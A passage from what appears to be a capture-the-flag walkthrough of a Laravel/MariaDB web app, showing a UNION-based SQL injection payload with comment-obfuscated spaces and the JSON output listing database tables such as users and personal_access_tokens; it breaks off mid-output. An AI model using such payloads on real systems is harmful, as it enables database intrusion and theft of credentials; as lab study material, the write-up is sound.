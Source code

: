 ```

{
    "status":"success",
    "data":[
        {
            "id":10,
            "file":"laravel@localhost",
         	"genre":"intentions",
         	"created_at":"1970-01-01T00:00:04.000000Z",
         	"updated_at":"1970-01-01T00:00:05.000000Z",
         	"url":"\/storage\/laravel@localhost"
        }
    ]
}

```

The user is laravel@localhost, and the database is intentions. I’ll use `version()` to get the version of 10.6.12-MariaDB-0ubuntu0.22.04.1.

I’ll change genres to get the list of databases and tables:

```

')/**/UNION/**/SELECT/**/1,table_schema,table_name,4,5/**/from/**/information_schema.tables/**/where/**/table_schema/**/!=/**/'information_schema'#

```

This will get the database name in the `file` and the table name in the `genre` of the output, and it will skip tables in the information\_schema table (as those are standard and well defined). It returns:

```

{
    "status":"success",
    "data":[
        {
            "id":1,
            "file":"intentions",
            "genre":"gallery_images",
            "created_at":"1970-01-01T00:00:04.000000Z",
            "updated_at":"1970-01-01T00:00:05.000000Z",
            "url":"\/storage\/intentions"
        },
        {
            "id":1,
            "file":"intentions",
            "genre":"personal_access_tokens",
            "created_at":"1970-01-01T00:00:04.000000Z",
            "updated_at":"1970-01-01T00:00:05.000000Z",
            "url":"\/storage\/intentions"
        },
        {
            "id":1,
            "file":"intentions",
            "genre":"migrations",
            "created_at":"1970-01-01T00:00:04.000000Z",
            "updated_at":"1970-01-01T00:00:05.000000Z",
            "url":"\/storage\/intentions"
        },
        {
            "id":1,
            "file":"intentions",
            "genre":"users",
```